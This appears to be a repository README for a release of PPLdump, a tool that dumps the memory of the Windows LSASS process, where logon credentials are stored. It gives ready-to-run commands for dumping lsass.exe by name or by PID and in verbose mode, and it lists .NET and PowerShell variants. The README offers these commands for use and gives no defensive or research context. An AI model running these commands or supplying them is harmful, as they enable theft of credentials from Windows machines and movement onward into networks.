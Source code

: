# ppldump-release
PPLDump Release

### Lsass Dump (Process image name)
```
PPLdump.exe lsass.exe lsass.dmp
```

### Lsass Dump (Process PID)
```
PPLdump.exe 720 lsass.dmp
```

### Lsass Dump (verbose)
```
PPLdump.exe -v lsass.exe lsass.dmp
```
### Lsass Dump .NET (DotNet Version Requires no Parameter)
```
PPLdumpnet.exe
```
### Lsass Dump PS (PowerShell Version Requires no Parameter)
```
PPLdumpps.ps1
```


